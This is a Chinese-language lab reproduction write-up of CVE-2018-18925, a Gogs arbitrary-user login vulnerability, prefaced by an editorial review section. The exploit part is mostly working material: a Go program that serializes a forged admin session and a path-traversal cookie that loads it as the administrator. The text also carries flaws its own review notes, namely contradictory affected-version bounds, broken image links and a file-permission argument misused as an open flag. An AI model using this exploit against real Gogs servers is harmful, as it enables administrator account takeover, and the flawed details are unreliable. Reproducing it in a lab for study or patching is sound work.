


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：简介写0.11.66及以前，影响节写&lt;0.11.66，边界自相矛盾

代码与实验材料：与156相同Gob文件、附件UUID和Cookie；需要普通账号、上传权限和文件session后端

来源证据范围：仅Vulhub旧URL

- **适用与权限边界（1）**：受影响边界冲突；依据：同篇&lt;=0.11.66与&lt;0.11.66并存。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：图片转换污染与样例参数问题；依据：两图片链接后重复Gogs任意用户登录漏洞/media路径；WriteFile权限位误用打开标志。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2018-18925）Gogs 任意用户登录漏洞
=======================================

一、漏洞简介
------------

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

二、漏洞影响
------------

Gogs \< 0.11.66

三、复现过程
------------

执行如下命令启动gogs：

    docker-compose up -d

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

漏洞利用
--------

使用Gob序列化生成session文件：

    package main

    import (
        "bytes"
        "encoding/gob"
        "encoding/hex"
        "fmt"
        "io/ioutil"
        "os"
    )

    func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
        for _, v := range obj {
            gob.Register(v)
        }
        buf := bytes.NewBuffer(nil)
        err := gob.NewEncoder(buf).Encode(obj)
        return buf.Bytes(), err
    }

    func main() {
        var uid int64 = 1
        obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
        data, err := EncodeGob(obj)
        if err != nil {
            fmt.Println(err)
        }
        err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
        if err != nil {
            fmt.Println(err)
        }
        edata := hex.EncodeToString(data)
        fmt.Println(edata)
    }

然后注册一个普通用户账户，创建项目，并在"版本发布"页面上传刚生成的session文件：

Gogs任意用户登录漏洞/media/rId25.png)

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：

Gogs任意用户登录漏洞/media/rId26.png)

完整的利用过程与原理，可以阅读参考链接中的文章。

参考链接
--------

> https://vulhub.org/\#/environments/gogs/CVE-2018-18925/
